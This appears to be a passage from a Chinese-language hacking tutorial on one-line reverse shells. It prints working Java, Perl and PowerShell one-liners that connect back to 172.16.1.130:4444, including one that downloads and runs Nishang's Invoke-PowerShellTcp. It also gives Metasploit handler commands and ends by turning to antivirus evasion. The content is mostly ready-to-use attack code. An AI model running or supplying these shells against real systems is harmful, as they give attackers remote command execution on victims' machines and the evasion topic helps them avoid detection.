 或者你直接在web目录写入一个php文件，然后浏览器去访问他就行了，这有一个[Linux和Windows两用的脚本](https://my.oschina.net/chinahermit/blog/144035)

## Java 脚本反弹

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/172.16.1.130/4444;cat <&5 | while read line; do $line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## perl 脚本反弹

```perl
perl -e 'use Socket;$i="172.16.1.130";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
## powershell

目标机器执行

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 172.16.1.130 -port 4444
```

## msfvenom 获取反弹一句话

msf支持多种反弹方式，比如exe ps php asp aspx甚至是ruby等，我们可以用msfvenom来生成payload，然后在msf中监听，执行之后就会反弹回来session

生成payload的方法参考[生成msf常用payload](http://www.myh0st.cn/index.php/archives/67/)，不再赘述

然后msf监听

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 172.16.1.130
set LPORT 4444
set ExitOnSession false
exploit -j -z
```

---

那么讲到这里我们把一句话反弹shell的方式讲的差不多了，但是到这里我们又涉及到了一个免杀的问题。

我们首先需要知道的是目前的反病毒软件查杀，常见的有三种：

1. 基于文件特征
2. 基于文件行为
3. 基于云查杀 实际也是基于特征数据库的查杀
